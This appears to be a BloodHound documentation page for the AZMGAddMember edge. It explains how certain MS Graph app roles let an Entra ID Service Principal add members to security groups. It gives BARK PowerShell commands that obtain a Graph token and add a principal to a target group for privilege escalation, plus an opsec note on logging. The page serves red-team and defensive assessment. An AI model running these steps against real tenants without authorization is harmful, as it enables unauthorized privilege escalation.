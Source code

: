 ---
title: AZMGAddMember
description: "This edge is created during post-processing."
---

<Frame>
  <img src="/hc/images/image-2-1.png"/>
</Frame>

It is created against non-role assignable Entra ID security groups when a Service Principal has one of the following MS Graph app role assignments:

* Directory.ReadWrite.All
* Group.ReadWrite.All
* GroupMember.ReadWrite.All

It is created against all Entra ID security groups, including those that are role assignable, when a Service Principal has the following MS Graph app role:

* RoleManagement.ReadWrite.Directory

You will not see this privilege when using the Azure portal or any other Microsoft tooling. If you audit the roles and administrators affecting any particular Entra ID security group, you will not see that the Service Principal can add members to the group, but it indeed can because of the parallel access management system used by MS Graph.

## Abuse Info

You can abuse this privilege using BARK’s Add-AZMemberToGroup function.

This function requires you to supply an MS Graph-scoped JWT associated with the Service Principal that has the privilege to add principal to the target group. There are several ways to acquire a JWT. For example, you may use BARK’s Get-MSGraphTokenWithClientCredentials to acquire an MS Graph-scoped JWT by supplying a Service Principal Client ID and secret:

```bash
$MGToken = Get-MSGraphTokenWithClientCredentials `
    -ClientID "34c7f844-b6d7-47f3-b1b8-720e0ecba49c" `
    -ClientSecret "asdf..." `
    -TenantName "contoso.onmicrosoft.com"
```
Then use BARK’s Add-AZMemberToGroup function to add a new principial to the target group:

```bash
Add-AZMemberToGroup `
    -PrincipalID = "028362ca-90ae-41f2-ae9f-1a678cc17391" `
    -TargetGroupId "b9801b7a-fcec-44e2-a21b-86cb7ec718e4" `
    -Token $MGToken.access_token
```
Then, you can re-authenticate as the principal you just added to the group and continue your attack path, now having whatever privileges the target group has.

## Opsec Considerations
The Azure activity log for the tenant will log who added what principal to what group, including the date and time.

## References

* [https://attack.mitre.org/techniques/T1098/](https://attack.mitre.org/techniques/T1098/)
* [https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5](https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5)
* [https://github.com/BloodHoundAD/BARK](https://github.com/BloodHoundAD/BARK)
